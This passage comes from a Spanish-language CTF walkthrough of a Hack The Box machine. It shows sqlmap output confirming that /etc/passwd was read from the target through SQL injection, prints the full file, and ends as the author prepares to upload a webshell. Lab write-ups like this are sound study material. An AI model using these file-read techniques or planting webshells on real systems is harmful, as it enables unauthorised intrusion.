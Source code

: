 ```
[10:54:55] [INFO] the local file '/root/.sqlmap/output/vote.cobblestone.htb/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (1430 B)
files saved to [1]:
[*] /root/.sqlmap/output/vote.cobblestone.htb/files/_etc_passwd (same file)

[10:54:55] [INFO] fetched data logged to text files under '/root/.sqlmap/output/vote.cobblestone.htb'

[*] ending @ 10:54:55 /2025-10-07/
```

Veremos que ha descargado el archivo de forma correcta, ahora si lo leemos:

### Lectura con un SQLi

```shell
cat /root/.sqlmap/output/vote.cobblestone.htb/files/_etc_passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
cobble:x:1000:1000:cobble,,,:/home/cobble:/bin/rbash
mysql:x:103:112:MySQL Server,,,:/nonexistent:/bin/false
tftp:x:104:113:tftp daemon,,,:/srv/tftp:/usr/sbin/nologin
_laurel:x:999:996::/var/log/laurel:/bin/false
john:x:1001:1001:,,,:/home/john:/bin/bash
```

Veremos que ha funcionado, pero de poco nos sirve leer archivos, vamos a probar a intentar subir alguna `webshell` o algo parecido.
